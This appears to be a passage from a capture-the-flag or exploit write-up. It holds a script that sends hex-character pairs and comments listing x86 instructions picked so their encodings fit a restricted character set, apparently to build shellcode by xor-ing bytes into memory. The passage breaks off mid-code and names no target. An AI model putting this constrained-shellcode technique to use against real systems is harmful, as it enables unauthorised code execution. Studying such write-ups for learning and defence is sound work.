 ```
; A4 A6 A0 D8 A6 (6 is used in next step)
inc    ecx ; A
xor    al,0x41 ; 4A
ss inc ecx ; 6A
xor    BYTE PTR [eax+edi*1+0x41],al ; 0D8A
'''
send("A4")
send("A6")
send("A0")
send("D8")
send("A6")


'''
; 6 F6 F6 F6 F1 F0 F6 F6 F6 F1 F0
ss inc esi ; 6F
ss inc esi ; 6F
ss inc esi ; 6F
ss inc esi ; 6F
xor    DWORD PTR [esi+0x30],eax ; 1F0

inc    esi ; F
ss inc esi ; 6F
ss inc esi ; 6F
ss inc esi ; 6F
xor    DWORD PTR [esi+0x30],eax ; 1F0
'''
writePopaStackValue()
writePopaStackValue()



'''
; A3 F0 A4 A4 B6 (6 is used in next step)
inc    ecx ; A
xor    eax,DWORD PTR [esi+0x30] ; 3F0
inc    ecx ; A
xor    al,0x41 ; 4A
xor    al,0x42 ; 4B
'''
send("A3")
send("F0")
send("A4")
send("A4")
send("B6")



'''
; 6 F6 F6 F6 F1 F0
ss     inc esi ; 6F
ss     inc esi ; 6F
ss     inc esi ; 6F
ss     inc esi ; 6F
xor    DWORD PTR [esi+0x30], eax ; 1F0
'''
writePopaStackValue()


'''
; D6 * 32
inc    esp  
ss inc esp
```